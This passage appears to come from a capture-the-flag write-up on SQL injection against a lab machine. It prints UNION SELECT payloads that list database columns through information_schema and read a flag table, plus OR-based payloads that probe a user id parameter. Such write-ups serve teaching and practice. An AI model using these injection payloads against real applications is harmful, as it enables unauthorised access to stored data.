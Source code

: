 ```sql
-- sqhell_5  : posts
-- sqhell_5  : users
```

Now we can do the same for column names
```sql
id=100+UNION+ALL+SELECT+'0',group_concat(table_schema,'+%3a+',table_name,'+%3a+',column_name),'kekw','TiberiousIsRightAgain'+FROM+information_schema.columns+WHERE+column_name='flag'--+-
```
![](columnnameequalflag.png)

```
GET /post?id=100+UNION+ALL+SELECT+'0',flag,'kekw','RIP-Totalbiscuit'+FROM+flag--+-
```

![](flag5.png)

## User

![](userpage.png)



We cant register
`http://10.10.48.199/user?id=1`
![](withidpara.png)

Al points out this will get us the admin user
![](altriesforadmin.png)

Why is it always returning the Admin page?: ...because we are querying an id, the querying includes OR 1=1 so really id=(x OR 1). I tested  you can remove the comment and the =1. Interestingly
![1080](0or2.png)
Actually the database is only returning the first thing it can get.

X OR Y  - means return every line in the database that matches the query. 

So actual query is potentially
```sql
SELECT * WHERE ID=1 
-- we are adding the OR 
```

```sql
--enumerate the column and got a return
id=0+OR+2+UNION+ALL+SELECT+1,2,3--+-

```

![](columnenumyouruser.png)
```sql
-- I mistken left the OR 2; I need to think PARAM+INJECTION+COLUMNS
id=0+UNION+ALL+SELECT+'Alh4zr3d','Ippsec','Tib3rious'--+- 
```
